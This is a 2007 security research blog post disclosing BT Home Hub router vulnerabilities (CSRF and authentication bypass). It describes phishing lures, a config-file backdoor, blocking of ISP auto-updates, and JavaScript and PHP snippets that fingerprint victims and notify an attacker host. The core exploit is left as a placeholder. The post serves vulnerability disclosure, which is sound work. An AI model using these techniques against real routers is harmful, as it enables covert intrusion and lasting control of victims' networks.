 ```yaml
---
title: BT Home Flub Pwnin The BT Home Hub (2)
author: pagvac
date: Tue, 16 Oct 2007 22:02:03 GMT
template: post.jade
---
```


In this post I'll elaborate a bit more on our [demo video](http://stage6.divx.com/user/gnucitizen/video/1722388/BT-Home-Flub) previously released and what the intruder can do to remotely access the Home Hub _anytime and from anywhere_ after it's been been broken into.  You are recommended to read the [first part](/blog/bt-home-flub-pwnin-the-bt-home-hub) of this post if you haven't done so yet.

So here is the attack illustrated in the demo video. The victim user is tricked - through Gtalk - to visit a website that contains malicious code. The malicious code runs in the background and does NOT exploit any vulnerabilities on the victim's browser at all, neither does it rely on ActiveX, therefore it's not picked up by anti-spyware/antivirus software. The malicious code is a simple combination of HTML and JavaScript, which exploits two vulnerabilities on the Home Hub (note that there are other vulnerabilities we found as well):

* CSRF
* Authentication bypass bug (thanks to this the exploit works even if the user has changed the default admin password)

After the victim user visits the malicious website, he's redirected to a funny video of [Techno Viking](http://www.google.com/search?ie=UTF-8&oe=UTF-8&sourceid=navclient&gfns=1&q=techno+viking) hosted by Youtube. Thus, the victim is distracted away from the fact that his router has just been compromised. There are other things we could have done on the malicious website besides a redirect to a Youtube video. For instance, we could have simply embedded third-party content from other websites through iframes in order to distract the victim from the fact that he's been victim of an attack.

### Tricking the victim to visit the evil site

We've been asked by some non-technical users how would the intruder incite the victim to visit the malicious link. Malware criminals are experts at finding ways to attract people to their malicious websites. Well, there are plenty of examples we can give. The following are some:

* Through a chat conversation (i.e.: messenger or IRC)
* Through emails delivered in a mass fashion targeting [UK email addresses](http://mail.google.com/mail/help/intl/en-GB/googlemail.html)
* By placing the malicious link on a popular website where it's common to find user-generated content. i.e.: Youtube, Myspace, Facebook, Bebo ...
* Through a website that claims to offer free porn
* Through a website that claims to offer  free [warez](http://en.wikipedia.org/wiki/Warez)
* Black [SEO](http://en.wikipedia.org/wiki/Search_engine_optimization)
* By setting up a blog through which the audience is [involved emotionally](http://www.spamfighter.com/News_Read_Spamfighter.asp?UID=419) regarding a current issue

### Backdooring the Home Hub PERMANENTLY

Once the router has been compromised the attacker gets an email (as shown in the [demo video](//www.youtube.com/watch?v=i4tkM3UtF1Y)) with the URL needed to access the Home Hub remotely using the "tech support" account - a.k.a. remote assistance. The attacker then logs in using the username 'tech' and a password which was chosen by her and was set when the malicious website was loaded in the victim user's browser. At this point, the intruder can do anything to the router. For instance, because remote assistance gets disabled after 20 minutes of inactivity, the intruder can do the following in order to make sure that she can come back any time to the router to tamper with it:

* Save the Home Hub config file (contains all router settings including the passwords for any services the victim is subscribed to)
* Add the following line in the config file under the `[ servmgr.ini ]` section: `ifadd name=HTTPs group=wan`
* Reload the modified config file so the new changes take place
* Configure the dynamic dns service (if the victim is not currently using it) using the web interface

At this point, the intruder can come back anytime remotely to the Home Hub, even after the remote assistance connection has timed out (happens after 20 mins of inactivity by default). The credentials she would use to login are the same one that were set when the attack took place (username 'tech' and a password of her choice). The cool thing is that although BT Broadband doesn't support static IP addresses, the intruder can simply bypass this restriction and always find the victim router's IP address thanks to it supporting serveral popular (and free) dynamic DNS services!

### Detecting a potentially vulnerable router

When preparing the exploit shown in the video, the malicious code could do either of the following before the actual exploit is submitted to the router:

* do not check if the victim user uses a vulnerable router
* perform some sort of check that concludes with a significant probability whether the victim user's router is vulnerable

The first approach is typically followed by classic worms: the payload is executed no matter what. If the router is vulnerable, then it'll be compromised, otherwise nothing would happen. From the user's end, there is no difference as everything happens in the background.

However, if the intruder wants to be stealth, he will craft the malicious webpage in such a way the exploit is only launched if the victim uses a potentially vulnerable router. This is a more elegant way to perform the attack and minimizes the chances of someone discovering the exploit and making it public.

The following are two simple techniques that can be used. The first technique simply checks if the IP address used by the BT Home Hub is serving a certain image:

    var notifyURL="http://evil.anydomain.com/bthomehubhack/notify.php";
    var imgsrc = 'http://192.168.1.254/images/head_wave.gif';
    var fingerprint_img = new Image();
    fingerprint_img.onerror = function (evt) {
        ; // can't be loaded - couldn't find a vulnerable router
    }
    // only notify attacker if potential vulnerable Thomson Speedtouch / BT Homehub router found
    fingerprint_img.onload = function (evt) {
        C=new Image();
        C.src=notifyURL;
    }

    The second technique simply checks for substrings within the [reverse DNS](http://en.wikipedia.org/wiki/Reverse_DNS_lookup) (PTR record) of the victim router. The following is an example of a reverse DNS record used by a BT Home Hub:

    host86-134-193-152.range86-134.btcentralplus.com

    In PHP we could check for the string 'btcentralplus.com' like this:

    <?php
    $ptr=gethostbyaddr($_SERVER['REMOTE_ADDR']);
    // if string "btcentralplus.com" is contained within victim's reverse lookup
    if(strstr($ptr, "btcentralplus.com")) {
       // then print exploit code
       // EVIL CSRF/AUTH BYPASS CODE GOES HERE!
    }
    ?>

    ### Preventing BT from fixing the vulnerabilities on Hubs that have been owned

    The BT Home Hub has a very neat feature called Auto-Update. The way the feature works is that the BT Home Hub connects regularly to remote servers located on `pbthdm.bt.motive.com`, which can push settings back to the Hub. There have been some concerns over this feature in the Internet community and I can see why. In essence, this feature is a backdoor which allows BT to do anything to your Home Hub remotely. Sure this is meant to be for updates that add new features and/or fix vulnerabilities. The question is, do you trust your ISP to have permanent control of your Internet gateway? I personally don't like the possibility of a disgruntled BT employee being able to tamper with my Home Hub remotely! Not to mention that this feature has [bricked](http://www.digitalspy.co.uk/forums/showthread.php?t=491560) Home Hubs in the past after customizing the configuration.

    An intruder would probably want to avoid any chance of BT disabling her backdoor after auto-updates are applied. Disabling updates can be as easy as changing the following line in the config file to point to a dummy (non-existing) URL. Note that we have NOT tested this idea, but it should work. After all, the intruder can save new changes in the config file using the tech support account.

    server config url=**https://useless-domain.foo/** username=XXXXXXXXXXXXXXXXX password=XXXXXXXXXXXXXXXXX

Perhpaps, the most effective way in which a cracker can break into BT Home Hubs in a mass fashion is by compromising the autoupdate servers. Then, from there, one could push changes back to the Hubs' config files. Imagine someone updating all BT Home Hubs in the UK with remote HTTPs enabled and accessible with a password of her choice. What a botnet would that make! Scary.

### Credits where due

_[pdp](http://www.gnucitizen.org/about/pdp) and I would like to thank Jan Fry and Vijay Thakorlal for helping us testing attacks._
